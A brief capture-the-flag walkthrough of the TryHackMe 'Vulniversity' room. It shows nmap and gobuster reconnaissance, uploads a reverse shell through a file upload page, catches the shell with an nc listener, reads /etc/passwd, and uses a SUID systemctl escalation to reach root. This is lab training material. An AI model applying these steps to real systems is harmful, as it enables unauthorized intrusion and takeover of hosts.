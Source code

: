# Matheus Jesus 10-04-2020

## Try Hack Me - [Vulniversity](https://tryhackme.com/room/vulnversity)

### IP 10.10.42.87

### 1. Reconnaisance

```sh
nmap -sC -sV -oN nmap_initial 10.10.42.87
```

```text
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
```

### Go Buster

gobuster dir -u http://10.10.42.87:3333 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

Found directory /internal/ that allows upload of files.

### Script to find extensions allowed

.phtml allowed

* Upload revshell.phtml file to server
* Open /internal/uploads and execute the script
* call nc -lnvp 1234
* open TTY - python -c 'import pty; pty.spawn("/bin/bash")'
* cat /etc/passwd to see users -> found bill
* cd /home/bill && cat user.txt -> Found flag

### Privilege Escalation

* Refer to https://gtfobins.github.io/gtfobins/systemctl/
* Grab Script -> on Script file.
* Execute it on server
* ls -l /bin/bash -> verify permissions.
* The s permission allows any user to run bash -p to become root
* access /root/root.txt
